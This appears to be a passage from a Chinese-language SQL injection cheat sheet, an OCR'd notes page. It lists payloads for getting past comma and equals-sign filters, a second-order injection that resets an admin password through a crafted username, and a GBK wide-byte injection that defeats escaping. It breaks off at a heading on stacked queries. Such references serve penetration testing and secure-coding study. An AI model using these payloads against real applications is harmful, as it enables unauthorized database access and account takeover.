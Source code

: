 #### 逗号绕过
```sql
-- join绕过
union select * from (select 1)a join (select 2)b join (select 3)c

-- like绕过
select ascii(mid(user(),1,1)) like 114

-- case when绕过
select case when ascii(mid(user(),1,1))=114 then 1 else 0 end
```

#### 等号绕过
```sql
-- like操作符
select * from users where username like 'admin'

-- regexp操作符
select * from users where username regexp '^admin$'

-- between操作符
select * from users where id between 1 and 1
```

## 🔧 高级技术

### [[二次注入]]
**原理**: 恶意数据先被存储，后在其他功能中被执行

```sql
-- 第一步：注册用户名包含恶意代码
username: admin'--

-- 第二步：修改密码时触发注入
UPDATE users SET password='newpass' WHERE username='admin'--'
-- 实际执行：UPDATE users SET password='newpass' WHERE username='admin'--
```

### [[宽字节注入]]
**原理**: 利用字符编码差异绕过转义

```sql
-- GBK编码环境
-- 输入：1%df' union select 1,user(),3--+
-- 转义后：1%df\' union select 1,user(),3--+
-- GBK解码：1運' union select 1,user(),3--+
-- %df%5c = 運（GBK编码）
```

### [[堆叠查询]]
**原理**: 执行多条SQL语句
